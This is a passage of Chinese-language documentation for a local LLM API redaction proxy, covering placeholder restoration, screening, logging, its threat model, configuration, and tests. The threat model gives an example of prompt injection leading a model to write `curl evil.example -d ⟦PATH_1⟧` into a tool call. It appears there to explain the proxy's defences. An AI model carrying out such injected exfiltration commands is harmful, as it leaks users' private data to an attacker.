區塊與提示快取都依賴這點），回覆文字中的 `⟦EMAIL_3⟧` 還原成同一個值。第一次出現在使用者文字、工具結果、較早的助理回合或系統提示中的佔位符沒有錨點，之後的工具呼叫照抄它也不算，照 0.2.x 跳脫：從檔案讀回或寫在摘要中的 `⟦EMAIL_1⟧`，可能是代理重啟前寫的，或為一個已過期的值寫的；跳脫保留它的號碼，這次的值可能換號，但上游回覆中的這個號碼不會還原成別的值。`toolRestore` 以外的類別寫進檔案或指令輸出時，就以佔位符留在磁碟上，代理重啟後讀回也一樣跳脫。不符合記憶條件的佔位符單獨跳脫；保留的佔位符遮罩後無法保持號碼時，整個請求跳脫所有佔位符：代理先試著原樣送出，不成時整個請求再遮罩一次，所以偵測（包括人名模型）對這個請求跑兩次。記憶中綁定過兩個值的 id（例如兩段對話各自的 `EMAIL_1`）一律跳脫，所以兩個值不會共用一個佔位符。這只看仍記得的值：另一個值已過期或被擠出記憶，或它綁定過的 id 超過 8 個、較舊的 id 被擠掉時，記憶中這個 id 又只剩一個值，這時有錨點的舊佔位符遇到這個值仍會原樣送出。原樣送出的佔位符只代表同一個請求中已有、已被遮罩的同一個值；使用者或內容注入的 `⟦EMAIL_3⟧` 第一次出現不在工具呼叫輸入中，所以沒有錨點，照舊跳脫。殘餘風險：用戶端保留工具呼叫，卻丟掉含有它的值的文字或工具結果、模型寫出這個請求中沒出現過的佔位符，或用戶端把文字插進與工具呼叫同一個模型回合時（同一則助理訊息，或 Responses 中與呼叫相鄰、中間沒有使用者訊息或工具輸出的助理項目），舊的佔位符仍可能還原成這個號碼現在代表的值；有錨點的 id 在整個請求中都原樣送出，所以工具結果中注入的同一個 id 也還原成同一個值（使用者自己的值）。`screen = "refuse"` 時，原樣送出的佔位符不讓請求被拒，沒有錨點的佔位符照舊讓請求被拒。照舊跳脫、編號可能逐輪漂移的情況：佔位符沒有錨點、值已過期或 `knownOriginalsTtlSeconds = 0`、代理重啟、值短於上面的記憶門檻、值已不在重送的歷史中（例如被壓縮成摘要）、這個 id 在記憶中綁定過兩個值（例如跨對話撞號）、別的值先拿到這個號碼。Responses 接續請求存下的先前文字保留原樣送出的佔位符，它們已在上游；新輸入中重送同一個佔位符時也原樣送出，所以另一段對話之後把同一個號碼綁到別的值，也不會讓接續鏈重新編號；這只限接續鏈已原樣送出過的 id，只在先前回覆的工具呼叫參數中留下、還沒原樣送出過的 id 遇到撞號時照舊跳脫。每次接續仍檢查：照常編號時，每個保留的 id 都要得到上游所知的那個原始值。編號移動時（例如記憶學到先前文字中較早出現的值，或只靠記憶遮到的值過期、新的值拿到它的號碼），這次請求把先前文字中的佔位符也跳脫，保留它們的號碼，所以偵測對這個請求最多跑三次。新輸入中被跳脫的佔位符（`⟪EMAIL_1⟫`）或單獨寫出的 `EMAIL_1` 也保留該號碼。這兩種情況下，先前文字中的值換號，上游記得的舊 `⟦EMAIL_1⟧` 出現在回覆中時當成未知、原樣保留，不會還原成別的值。
- **存活時間。** 每個值從最後一次被偵測起保留 `knownOriginalsTtlSeconds` 秒（預設 86,400，即 24 小時；`0` 表示什麼都不記），過期的值在下次讀取該範圍的記憶時刪除。只靠記憶遮到的回聲不會延長存活時間。

這些原始值留在記憶體中直到過期、被擠出或代理重啟，不寫入磁碟。

## 9. 控制字元篩檢

規則無法判讀控制字元、U+FFFD、孤立 surrogate；而 `⟦`、`⟧` 會與佔位符混淆。工具輸出（終端跳脫碼、二進位雜訊）與用戶端回送的未還原佔位符常含這些字元。`screen` 決定怎麼處理：

| 模式 | 行為 |
| --- | --- |
| `replace`（預設） | U+0000–U+001F（tab、換行、CR 除外）換成對應的 Control Pictures 字元（例如 ESC 變 `␛`），U+007F 變 `␡`；C1 控制字元、U+FFFD、孤立 surrogate 變 `␦`；`⟦`、`⟧` 變 `⟪`、`⟫`，符合第 8 節「回送的佔位符」條件的佔位符除外。上游收到的文字因此與原文不同。 |
| `refuse` | 以 `screenText` 檢查，並檢查 `⟦`、`⟧`（符合第 8 節「回送的佔位符」條件的佔位符除外）；有任一就以 422 拒絕整個請求，訊息含 JSON 路徑與字元類別。 |

## 10. 日誌

日誌寫到 stderr，每個請求一行：方法、路徑（不含查詢字串）、狀態碼、各類別遮罩數、還原數、未知佔位符數與耗時。被拒絕的請求記錄狀態碼與拒絕原因。用戶端中途斷線的請求記一行 `aborted by the client`；上游中途斷線記為 502。日誌絕不包含原始值或標頭。

```text
POST /v1/chat/completions -> 200 masked 3 (EMAIL 1, TWID 1, PATH 1) restored 3 unknown 0 7ms
```

工具呼叫參數中的每個已綁定佔位符另記一行：還原（`restored`）、因位於 URL 內而保留（`kept inside a URL`）或因類別不在[工具還原政策](#工具參數的還原政策)中而保留（`kept by the tool restore policy`），以及佔位符 id、工具名稱（沒有名稱的 Responses `*_call` 項目寫它的 `type`）、參數的 JSON 路徑。同一行在同一個請求中只記一次（Responses 串流會把參數重送多次）。工具名稱與路徑中的鍵不合識別字格式時寫成 `<tool>`、`<key>`。有保留時（含回覆文字中 URL 內的佔位符），請求那一行多出 `kept N`。

```text
POST /v1/messages tool arguments: kept inside a URL EMAIL_1 in web_fetch at /url
POST /v1/messages tool arguments: restored PATH_1 in read at /path
POST /v1/messages tool arguments: kept by the tool restore policy KEY_1 in bash at /command
```

開啟 `sendWhenMaskFails` 時，遮罩失敗仍送出的請求另記一行 `warning: masking failed and the request is being sent anyway (sendWhenMaskFails): …`，寫出欄位路徑與類別或錯誤代碼，不含值。

`debugMasked`（或 `REDACTION_PROXY_DEBUG_MASKED=1`）會額外記錄每個遮罩後的請求本文（遮罩失敗仍送出的請求除外）。內容只有遮罩後的文字，但仍包含所有未被偵測到的內容，預設關閉。

## 11. 威脅模型

能防：經由代理、位於被改寫欄位中的可偵測識別資料與憑證，不小心洩漏給上游供應商，以及之後讀取其日誌或訓練資料的人。

不能防：

- 從上下文推論（佔位符周圍的語意），以及規則偵測不到的識別資料；
- 不遮就轉送的欄位內容（圖片、檔案、metadata、帶簽章的 thinking）；
- 繞過代理的用戶端，或用戶端直接連自家伺服器的功能（遙測、Cursor 後端）；
- 同一台電腦上的其他程式或使用者：沒設 `authToken` 時，他們可以呼叫代理（包括使用環境變數中的備援金鑰）；設了也擋不住讀取代理記憶體。網頁則擋得住：不允許的 `Origin` 與非本機 `Host`（DNS rebinding）以 403 拒絕；
- 惡意上游誘導模型以非標準形式寫回值（還原只填佔位符，從不把原始值送往上游）；
- 惡意上游或提示注入讓模型把允許還原的類別寫進工具呼叫參數中 URL 以外的位置（例如 shell 指令 `curl evil.example -d ⟦PATH_1⟧`）：代理照常還原，用戶端執行工具時就把原始值送出。預設只有 `PATH`、`TERM`、`PROJECT` 還原進工具參數，其他類別以佔位符交給工具，除非使用者為該工具開放（[工具還原政策](#工具參數的還原政策)）；工具參數與回覆文字中 URL 內的佔位符不還原，工具參數中遇到的每個佔位符都記入日誌；
- 輸入者刻意規避（例如用規則不會折疊的字元拆開一個值）。

開啟 `sendWhenMaskFails` 時，遮罩失敗的請求連同偵測到的值送往上游（第 6 節）。

代理預設只綁定 `127.0.0.1`，此時 `authToken` 可不設。`host` 設成非本機位址（例如容器內的 `0.0.0.0`）時必須設 `authToken`，否則拒絕啟動：連得到該埠的主機若沒有權杖，就無法透過代理使用它轉送的憑證（包括環境變數中的備援金鑰）。權杖放在專用標頭 `x-redaction-proxy-token`，因為 `authorization` 與 `x-api-key` 要帶上游金鑰；代理不轉送它。帶正確權杖的請求不檢查 `Host`，所以其他容器可以用服務名稱連線；DNS rebinding 的網頁拿不到權杖，而自訂標頭會觸發只有允許來源才通過的 CORS 預檢。權杖以明文 HTTP 傳送，只在可信任的網路（本機、容器網路）上使用。

上游視為可信，但代理不跟隨它的重新導向（第 6 節），所以用戶端的金鑰只送往設定的上游主機。

品質影響：需要直接操作被遮值的任務（把絕對路徑改成相對路徑、對地點做推理）可能變差。這類失敗看得見（回覆中會出現佔位符或錯誤的推論），不是把錯誤的值靜默寫回。

## 12. 完整設定

以 `--config 路徑`（`-c`）或 `REDACTION_PROXY_CONFIG` 指定設定檔，環境變數覆寫檔案。設定檔可以是 TOML（`.toml`）或 JSON（`.json`），依副檔名判斷；沒有副檔名的路徑（例如 `/dev/stdin`）讀成 JSON，檔名正好是 `.toml` 或 `.json` 的檔案依該格式讀，其他副檔名會讓啟動失敗；開頭的 UTF-8 BOM 在兩種格式都略過；兩種格式的鍵名與巢狀結構相同（TOML 的 `[toolRestore]` 表或 `toolRestore.categories` 點號鍵，對應 JSON 的 `"toolRestore": {…}`），驗證也相同。語法錯誤會讓啟動失敗，訊息只寫檔案路徑（TOML 另寫行號與欄號）與錯誤種類，不引用檔案內容。不認得的鍵、型別不對的值（布林設定寫成 `"true"`；`redaction`、`toolRestore`、`nameModel` 不是表，例如 TOML 日期或數字）會讓啟動失敗；鍵名含 key 或 secret 時，錯誤訊息會提醒上游 API 金鑰應放環境變數。錯誤訊息只在鍵或值是簡短、像名稱的字（英文字母開頭，其餘為英數字、`_`、`-`，最多 24 個字元、最多兩個數字，且不以 `sk-`、`ghp_`、`gho_`、`github_pat_`、`xox`、`AKIA`、`ASIA`、`eyJ`、`glpat-` 開頭，不分大小寫）時才引用它；其他內容，包括權杖形狀的文字，都寫成 `<key>`、`<value>`、`<host>` 或型別（`<number>`）。[config.example.toml](../config.example.toml) 列出每個選項、說明與預設值。

```json
{
  "port": 8787,
  "openaiUpstream": "https://api.openai.com",
  "anthropicUpstream": "https://api.anthropic.com",
  "screen": "replace",
  "debugMasked": false,
  "knownOriginalsTtlSeconds": 86400,
  "maskLocalUsername": true,
  "toolRestore": {
    "categories": ["PATH", "TERM", "PROJECT"],
    "tools": { "git_commit": ["PATH", "TERM", "PROJECT", "EMAIL"] }
  },
  "redaction": {
    "terms": ["林小明", "Denise Whitlock"],
    "projectNames": ["Nimbus"],
    "allowlist": ["git@github.com", "noreply@github.com"],
    "rules": ["email", "user-path", "api-key", "tw-national-id", "phone", "tax-id", "ip", "host", "iban", "e164-phone", "eu-vat", "us-ssn", "us-itin", "uk-nino", "de-tax-id", "fr-nir", "es-dni", "it-fiscal-code", "cn-resident-id", "cn-mobile", "hk-id", "jp-my-number", "jp-mobile", "kr-rrn", "us-phone", "uk-phone", "fr-phone", "jp-phone", "kr-mobile", "kr-phone", "br-phone", "phone-keyword", "card-strict", "entropy-strict", "private-host", "token-format", "credential-phrase", "tw-national-id-loose", "tw-passport-nhi", "tw-mobile-loose", "email-escaped", "ip-cgnat-ula"]
  }
}
```

| 檔案鍵 | 環境變數 | 預設 | 說明 |
| --- | --- | --- | --- |
| `port` | `REDACTION_PROXY_PORT` | `8787` | 埠號，0–65535；0 代表隨機。環境變數必須是數字，空字串會讓啟動失敗。 |
| `host` | `REDACTION_PROXY_HOST` | `127.0.0.1` | 綁定位址。非本機位址（不是 `localhost`、`127.0.0.0/8`、`::1`）必須設 `authToken`；見 [§11](#11-威脅模型)。 |
| `authToken` | `REDACTION_PROXY_AUTH_TOKEN` | 無 | 每個請求都要在 `x-redaction-proxy-token` 標頭帶上的權杖，至少 16 個字元，例如 `openssl rand -hex 32`。不轉送。 |
| `allowedOrigins` | `REDACTION_PROXY_ALLOWED_ORIGINS`（逗號分隔） | 無 | 本機 `http(s)` 來源之外允許的瀏覽器來源，與 `Origin` 標頭逐字比較（不分大小寫，去掉結尾斜線），例如 `app://my-client`。拒絕 `null` 與 `*`。 |
| `openaiUpstream` | `REDACTION_PROXY_OPENAI_UPSTREAM` | `https://api.openai.com` | Chat Completions、Responses 與 OpenAI 型 GET 的上游 base，必須是 http(s)。 |
| `anthropicUpstream` | `REDACTION_PROXY_ANTHROPIC_UPSTREAM` | `https://api.anthropic.com` | Messages 與 Anthropic 型 GET 的上游 base。 |
| `allowInsecureUpstream` | `REDACTION_PROXY_ALLOW_INSECURE_UPSTREAM`（`1` 或 `0`） | `false` | 允許以明文 `http://` 連到非本機的上游。未設定時這種上游會讓啟動失敗，因為 API 金鑰會以明文傳送。檔案中只接受布林值，環境變數只接受 `1` 或 `0`，環境變數覆寫檔案。 |
| `screen` | `REDACTION_PROXY_SCREEN` | `replace` | `replace` 或 `refuse`，見第 9 節。 |
| `debugMasked` | `REDACTION_PROXY_DEBUG_MASKED`（`1` 或 `0`） | `false` | 記錄遮罩後的請求本文。檔案中只接受布林值，環境變數只接受 `1` 或 `0`，環境變數覆寫檔案。 |
| `sendWhenMaskFails` | `REDACTION_PROXY_SEND_WHEN_MASK_FAILS`（`1` 或 `0`） | `false` | 遮罩失敗時仍送出請求，不以 422 拒絕：外洩檢查找到殘留值時送出部分遮罩的本文，`mask` 拋出 `RedactionError` 時送出原始本文。這會把偵測到的值送給服務商。回應帶 `x-redaction-proxy-mask-failed: 1` 標頭，日誌記一行不含值的警告。檔案中只接受布林值，環境變數只接受 `1` 或 `0`，環境變數覆寫檔案。見[第 6 節](#6-拒絕與錯誤狀態碼)。 |
| `knownOriginalsTtlSeconds` | `REDACTION_PROXY_KNOWN_ORIGINALS_TTL_SECONDS` | `86400` | 偵測到的值為之後的請求保留的秒數，從最後一次偵測起算；`0` 表示不記住。見[第 8 節](#已知原始值)。 |
| `maskLocalUsername` | `REDACTION_PROXY_MASK_LOCAL_USERNAME`（`1` 或 `0`） | `true` | 命令列代理把執行它的帳號名稱（`os.userInfo().username`），以及不同時的家目錄最後一段，加進 `redaction.terms`，以 `TERM` 遮罩並照 `toolRestore` 預設還原進工具參數。Claude Code 會送出單獨的使用者名稱（`user_identity`）與 `-Users-<名稱>-project` 這類專案目錄名稱，`PATH` 規則只認 `/Users/<名稱>`。少於 3 個字元的名稱與通用帳號名稱（`admin`、`administrator`、`app`、`default`、`dev`、`docker`、`ec2-user`、`guest`、`node`、`nobody`、`root`、`runner`、`runneradmin`、`test`、`ubuntu`、`user`、`vagrant`，不分大小寫）略過，否則一般文字中的同一個詞都會被遮；所以官方 Node.js 映像檔（Docker 映像檔）的 `node` 使用者不遮任何字。與 `terms` 中自己列出的字詞不同，加入的名稱在整個請求中都不受外洩檢查，在任何地方都不讓請求被拒：名稱同時是 JSON 鍵、模型 id 或工具名稱的一部分時（`max_tokens` 中的 `max`、`claude-haiku-5-5` 中的 `claude`），那裡照原樣送出；文字中以完整單字出現處照常遮罩（任何 ASCII 大小寫，`<名稱>_project` 中的也遮），黏著英文字母或數字的出現處（`<名稱>2024`）不符合完整單字的比對，照原樣送出。`terms` 已列出的名稱（不分 ASCII 大小寫，例如列了 `Fictionaluser` 而帳號是 `fictionaluser`）不再加入，仍是列出的字詞，照常受外洩檢查。沒有 passwd 項目的帳號（`docker run --user 1234`）沒有名稱可遮。直接呼叫 `loadConfig` 的程式以第三個參數傳入帳號才會加入。檔案中只接受布林值，環境變數只接受 `1` 或 `0`，環境變數覆寫檔案。 |
| `toolRestore.categories` | `REDACTION_PROXY_TOOL_RESTORE_CATEGORIES`（逗號分隔） | `PATH`、`TERM`、`PROJECT` | 還原進工具呼叫參數的類別，或 `"*"`（全部）；空字串代表都不還原。見[第 7 節](#工具參數的還原政策)。 |
| `toolRestore.tools` | — | 無 | 依工具名稱（去掉前後空白、不分大小寫）比對的類別清單或 `"*"`，取代該工具的 `categories`。 |
| `redaction.rules` | — | `card`、`entropy` 以外全部 | 啟用的內建規則；空陣列停用所有內建偵測。代理預設啟用 42 條：全部規則，但以 `card-strict`、`entropy-strict` 取代 `card`、`entropy`（上例即代理預設）。直接使用核心的宿主（`new RulesDetector()`）預設只有臺灣與通用的 10 條（`DEFAULT_RULE_NAMES`），見下方說明。 |
| `redaction.terms` | — | 無 | 以 `TERM` 遮罩的字面值，例如人名。 |
| `redaction.projectNames` | — | 無 | 以 `PROJECT` 遮罩的字面值，例如代號。 |
| `redaction.allowlist` | — | `git@github.com`、`noreply@github.com` | 內建規則一律放過的字面值。 |
| `nameModel.dir` | `REDACTION_PROXY_NAME_MODEL_DIR` | 無（不設定即關閉） | 實驗性人名模型的目錄，絕對路徑；設定後才開啟。其餘 `nameModel.*` 鍵見[第 16 節](#16-人名模型實驗性)。 |
| — | `REDACTION_PROXY_OPENAI_API_KEY` | 無 | OpenAI 型用戶端沒送 `authorization` 時才以 `Bearer` 補上。只存記憶體。 |
| — | `REDACTION_PROXY_ANTHROPIC_API_KEY` | 無 | Anthropic 型用戶端沒送 `x-api-key` 與 `authorization` 時才補上。只存記憶體。 |

**國際規則、延伸規則與政策摘要。** 偵測器的 `policyDigest` 是偵測器版本與啟用規則清單的雜湊，持久化 span 索引的宿主（DeepSeek Harness 的隱私路由）用它判斷先前記錄的遮罩是否仍適用；摘要不同時，`mask` 以 `policy` 拒絕。核心預設不含國際規則與延伸規則。`rules-7` 讓 `api-key` 不再遮 schema 用字、協定用字與遮蔽寫法（見[第 3 節](#3-偵測規則)），也不再把 `Authorization:` 後的空白算進值；`rules-8` 再讓它不遮由協定用字組成的 snake_case 欄位名稱（`max_tokens`）與範本佔位（`<your secret>`），並遮含引號的值（`ab"cd12ef`）；`rules-9` 改為只不遮未加引號、不在 `.env` 行上的知名 API 欄位名稱，再遮 `data_store`、`web_server` 這類由協定用字組成的密碼，並把含數字的 `${{ secrets.PW2 }}` 整段當成範本；`rules-10` 讓 OpenAI 與 Anthropic API 的欄位名稱在任何寫法都不遮，並讓首尾是英文字母或數字的 `terms`、`projectNames` 只比對完整的詞（這項只少遮，所以也遞增版本）。`rules-11` 讓原文中是完整單字、但 NFKC 投影上不是的 `terms`、`projectNames` 出現處也遮（`Orion™`、`Lin№5`、`Orion\u200Bcloud`），與外洩檢查的判斷一致，並讓 `api-key` 未加引號的值在引號後接非 ASCII 字母、數字或符號時延續（`p@ss"🔑x12` 整段遮）。`rules-12` 讓 `terms`、`projectNames` 的原文邊界把 BMP 以外的字母與數字當成字母與數字（`Lin𝐀bc` 不再遮，這項只少遮），外洩檢查也把零寬字元後接的組合符號算在前一個字母上（`Orion\u200B\u0301`）。所以未設定 `rules` 的宿主的偵測器版本從 `rules-11` 變成 `rules-12`，摘要從 `sha256:de67f507…a04124` 變成 `sha256:2e02d33a…8c674d`，以 `rules-11` 記錄的 session 會遇到 `policy` 拒絕（隱私路由會改在本機回答）。在這類宿主啟用任一國際規則，偵測器版本變成 `rules-12+intl-2`；啟用任一延伸規則再加上 `+ext-1`；摘要隨之改變，之前記錄的 session 會遇到 `policy` 拒絕（隱私路由會改在本機回答）。國際規則的結果改變時只遞增 `INTERNATIONAL_RULES_VERSION`，延伸規則只遞增 `EXTENDED_RULES_VERSION`，都不影響未啟用它們的宿主。`intl-2` 加入 8 條電話規則，並讓 `e164-phone` 在行首只認分組寫法、略過日期。`intl-2` 與 `ext-1` 在 v0.1.0 之前的修改沿用這兩個版本。自 v0.1.0 起，任何改變偵測結果的修改都必須遞增對應的版本（`DETECTOR_VERSION`、`INTERNATIONAL_RULES_VERSION` 或 `EXTENDED_RULES_VERSION`），因為以 git submodule 固定使用這份核心的宿主（dsh-addons 的 redaction 套件）會比對政策摘要。`terms`、`projectNames` 的比對改為詞的部分之間可有一串分隔符（`Margaret  Holloway`、換行縮排）時沿用 `rules-6`：摘要只含字面值的數量，不含比對方式；新的比對只多遮、不少遮；已記錄的訊息不重新掃描，其中這類寫法只在新訊息綁定同一寫法後才經值傳播遮掉。代理不保存索引，每個請求都用空索引，所以摘要對代理沒有影響，代理因此預設啟用全部規則（嚴格版取代 `card`、`entropy`）。

上游 base 要設成讓 `<base>/v1/chat/completions`（或 `<base>/v1/messages`）是真正的端點，例如 `https://api.deepseek.com`。結尾斜線會被去掉。

## 13. 測試

`pnpm test`（vitest）執行 36 個檔案、2,087 個測試：2,079 個通過；需要真模型的 1 個檔案（8 個測試）未設定模型目錄時略過。

| 檔案 | 內容 |
| --- | --- |
| `rules-detection`、`rules-secrets`、`rules-normalization`、`rules-propagation`、`rules-config`、`rules-synthetic-corpus` | 與 DeepSeek Harness 轉接層共用的規則測試：各規則、憑證樣式、NFKC 與零寬字元、同值擴散、設定驗證、合成語料。 |
| `rules-regroup`、`rules-regroup-review*`、`rules-percent*` | 拆開寫法、百分比編碼的值與逐位元組還原、手機號碼的字母邊界、逐字元解碼與解碼後的 NFKC 投影，含兩組各 10,000 筆、不同種子的模糊測試，以及緊接在無效 `%XX` 後面的值。 |
| `rules-international` | 國際規則：每條規則的合成正例、檢查碼錯誤與結構不符的反例、程式碼與日誌形狀的反例（時間戳、雜湊、訂單號、版本字串、UUID）、與卡號重疊時的類別、全形與百分比編碼、預設政策摘要不變、代理預設規則、diff 新增行與 `+` 後的日期不被當成電話；國內電話格式的正例，與時間戳、ISBN、SSN、IPv4、表格列、十六進位傾印、UUID、CSV 列等反例。`rules-synthetic-corpus` 另有國際規則在隨機日誌 id 與數字列上的誤遮上限，`adversarial` 另有 52 種國際規則的 200 KB 病態輸入。 |
| `rules-extended` | 延伸規則：每條規則的正例與反例（程式碼、套件名、檔名、命名空間、環境變數、資源路徑、成員鏈、版本範圍、純數字 UUID）、預設 `card`、`entropy` 的結果不變、偵測器版本與摘要，以及 32 種 200 KB 病態輸入。 |
| `engine` | 遮罩引擎：編號、保留 id、索引重用、嚴格還原。 |
| `adversarial` | 洩漏與往返、失敗即關閉的篩檢、54 種 200 KB 病態輸入與 3 種 1 MB 的 `password=` 行各須在 5 秒 CPU 時間內（量測 worker 行程的 CPU 時間而非經過時間，平行執行的其他測試不計入）、串流回覆的所有 2 段與 3 段切法、100 KB 串流以 4 字元為單位。 |
| `proxy`、`proxy-pass-review*` | 對本機假上游的端對端測試：Chat Completions、Responses、Anthropic Messages 的 JSON 與 SSE，佔位符跨越分塊邊界並出現在工具呼叫 JSON 中；413、未知接續的 422、鍵中原始值寫成 `<key>`；上游重新導向回 502、巢狀過深的本文回 400、未結束或格式錯誤的串流仍送出殘留與其餘事件、用戶端中途斷線也記一行日誌；回送佔位符的錨點規則（哪些工具呼叫欄位算錨點，伺服器寫的欄位不算；同一個模型回合的助理文字與推理不算第一次出現，較早的助理回合算）。 |
| `proxy-host`、`restore-urls` | 綁定位址、權杖、`allowedOrigins` 與設定錯誤即拒絕啟動；403（`Host`、`Origin`）與 401；工具呼叫參數中 URL 內的佔位符不還原，其他還原的佔位符回報 JSON 指標而不含原始值。 |
| `config-file` | 設定檔：TOML 與 JSON 內容相同時結果相同、`config.example.toml` 即預設值、副檔名判斷（沒有副檔名讀成 JSON、`.toml`／`.json` 點檔、其他副檔名拒絕）、開頭的 BOM、語法錯誤只寫路徑與行列而不引用內容、表與布林值的型別檢查、錯誤訊息只引用像名稱的字（`printable` 對權杖形狀的值與非本機 `host` 寫成佔位文字）、`sendWhenMaskFails`、`debugMasked`、`allowInsecureUpstream` 的環境變數雙向覆寫與只接受 `1`／`0`。 |
| `proxy-mask-fails` | `sendWhenMaskFails`：外洩檢查找到殘留值或 `mask` 拋出時改為送出、回應帶 `x-redaction-proxy-mask-failed: 1`（含遮罩失敗後代理回的 502）、上游送來的同名標頭被去掉、警告行不含值、不記錄本文，以及其他拒絕（`screen: "refuse"` 等）不受影響。 |
| `cli` | 未知選項、多餘的位置參數與埠已被占用時，只印一行 `redaction-proxy: …` 並以代碼 1 結束。 |
| `name-model-config`、`name-model-detector`、`name-model-spans`、`proxy-name-model`、`name-model-real` | 人名模型：設定驗證、以假模型（`name-model-fake.ts`）測哪些文字送進模型、規則優先、敬稱切除、整個請求中的擴散、推論失敗時只用規則或在 `nameModel.required` 時回 503；`name-model-real` 載入真模型，只在設定模型目錄時執行。 |
| `public-bench`、`real-e2e-harness` | 公開評測：開發集的產生與檢查碼、計分方式（完全、部分遮罩與未遮罩，macro 平均，精確率）、保留集的載入與 `MANIFEST` 雜湊檢查；真實服務驗證工具對本機假上游的完整流程（沒有金鑰時略過、上游錯誤訊息引用的金鑰被替換、佔位符還原的判定）。 |

`pnpm typecheck` 做型別檢查。CI（`.github/workflows/ci.yml`）在 ubuntu 與 macOS、Node 22 與 24 上跑型別檢查、測試、建置、`--demo` 與 `npm pack --dry-run`，不安裝人名模型的選用依賴；真實服務的驗證（`e2e-real.yml`）只能手動觸發，金鑰來自 repository secrets。`pnpm test` 的端對端測試與 `pnpm demo` 都只用本機假上游。真實服務：2026-10-08 只設 `DEEPSEEK_API_KEY` 執行 `pnpm run e2e:real`，DeepSeek Chat Completions 的 4 個情境全部通過，OpenAI 與 Anthropic 因沒有金鑰而略過（[e2e/real](../e2e/real/README.md)）。2026-10-13 以兩個真實用戶端經由代理使用 Anthropic Messages（Claude Haiku 5.5），2026-10-14 兩者都在最終的 0.3.0 建置（commit `1a12a30`）上再次通過：Claude Code 2.1.287 以訂閱登入、設定 `ANTHROPIC_BASE_URL=http://127.0.0.1:8787`，串流文字與工具（Bash、Read）都可用，偵測到的值上游只看到佔位符，回覆已還原，工具參數依 `toolRestore` 還原 `PATH`、`TERM`、`PROJECT`，其他類別保留為佔位符；0.3.0 之前保留的佔位符在後續回合被重新編號，模型把同一個工具重試了 7 次，0.3.0 中工具只執行 1 次（2026-10-13 為 3 個請求；2026-10-14 模型先寫了一句話再呼叫 Bash 與 Read，共 2 個請求，佔位符編號不變）。Claude Code 也送出作業系統的使用者名稱（`safeguards…user_identity` 與專案目錄名稱），0.3.0 以 `maskLocalUsername` 預設遮掉。dsh（DeepSeek Harness，pi-ai 的 Anthropic 路徑）的文字與工具也可用；0.3.0 之前保留的佔位符讓 Anthropic 以 HTTP 400 拒絕重送的簽章 thinking 區塊，已驗證 0.3.0 修正。未驗證：OpenAI API（沒有金鑰）、Codex CLI（未登入）、直接使用 Anthropic SDK（只經由 dsh 的 pi-ai）、以 `e2e:real` 對 Anthropic 執行（未執行）。

Docker 映像：2026-10-13 在 Apple Silicon 上以 Docker Desktop 29.6.2（linux/arm64）對本機假上游驗證：可以建置（347 MB；加 `--build-arg NAME_MODEL=1` 為 864 MB），以非 root 使用者 `node` 執行；綁定 `0.0.0.0` 時沒設 `REDACTION_PROXY_AUTH_TOKEN` 就拒絕啟動，沒帶權杖的請求回 401；email、身分證字號與家目錄路徑在 OpenAI Chat Completions JSON、串流與 Anthropic Messages 中都遮罩後送上游並還原；以 `--config /redaction.toml` 掛載設定檔可用；允許來源的 CORS 預檢回 204 且不轉送，其他來源回 403。未測試：以真模型執行人名模型版映像、linux/amd64。上游是非本機的明文 `http://`（例如經由 `host.docker.internal` 連到的本機模型伺服器）時，要加 `-e REDACTION_PROXY_ALLOW_INSECURE_UPSTREAM=1`。

npx：尚未發布到 npm。2026-10-14 以本機 tarball 驗證（0.3.0 的 `npm pack`，201.2 kB、60 個檔案）：`npx --yes --package=./redaction-proxy-<version>.tgz redaction-proxy --demo` 印出示範輸出，不加 `--demo` 時代理在 127.0.0.1:8787 啟動。代理沒有健康檢查端點：GET 請求會轉送到上游。

## 14. 誤遮率量測方法

`pnpm bench`（`bench/false-positives.mjs`）：

1. 以 `git archive` 匯出語料儲存庫指定 commit 的 `packages`、`docs`、`scripts`（DeepSeek Harness 在 commit `6d3b7608bf` 的本機 checkout，以 `CORPUS_REPO` 指定，必填；`CORPUS_REF` 預設 `master`）到 `.corpus-work`，結束後刪除。
2. 選取 `.ts .md .yml .yaml .json .sh .py`、小於 512 KB 的檔案，排除 snapshot、session、fixture、`node_modules`、`lib`、`dist`、`coverage`。
3. 每個檔案以預設規則整份 `mask`，再以嚴格 `restore` 確認逐位元組還原。
4. 主要指標：程式碼檔（`.md`、`.yml`、`.yaml` 以外）中的 `KEY` 數量除以程式碼行數。原始碼不含可用的憑證，所以每一個都是誤遮。其他類別以全部行數與程式碼行數各計一次，是誤遮的上限，因為文件裡確實有應被遮的範例路徑與地址。預設設定不含 `terms`，所以 `TERM`、`PROJECT` 不出現。

最近一次結果（`rules-12`；DeepSeek Harness `6d3b7608bf`，4,789 個檔案、848,546 行，其中程式碼檔 697,669 行，約 5–8 秒（依機器而定）；除 `KEY` 外與 `rules-6`、`rules-5`、`rules-4`、`rules-3`、`rules-2` 每一類數量相同，`TAXID` 為 0；`KEY` 因憑證不論長度都擴散而從 527 增為 602，`rules-7` 不再遮佔位用字後降為 598，`rules-8` 不再遮協定欄位名稱與範本佔位後降為 592，`rules-9` 把含數字的雙大括號範本整段當成範本後降為 590，`rules-10`、`rules-11`、`rules-12` 不變）：

| 類別 | 數量 | 每千行 |
| --- | --- | --- |
| `KEY`（程式碼檔，全為誤遮） | 590 | **0.85**（以程式碼行數計） |
| `ENTROPY` | 873 | 1.03 |
| `KEY`（全部檔案） | 645 | 0.76 |
| `PATH` | 201 | 0.24 |
| `HOST` | 157 | 0.19 |
| `IP` | 42 | 0.05 |
| `EMAIL` | 16 | 0.02 |
| `CARD` / `PHONE` / `TWID` | 3 / 1 / 1 | <0.01 |

29 個檔案因含 `⟦`/`⟧` 被拒絕（`unsupported`），還原失敗 0。

